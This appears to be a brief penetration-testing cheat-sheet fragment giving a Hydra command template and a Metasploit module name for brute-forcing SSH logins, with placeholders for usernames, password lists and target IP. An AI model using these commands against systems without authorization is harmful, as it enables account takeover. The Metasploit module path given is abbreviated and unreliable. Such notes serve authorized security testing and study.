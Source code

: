 **Brute Forcing SSH with Hydra
**

```hydra -L (username) -P (password list) (IP address) ssh```

**Brute Forcing SSH login with Metasploit
**

```Use ssh/ssh_login```
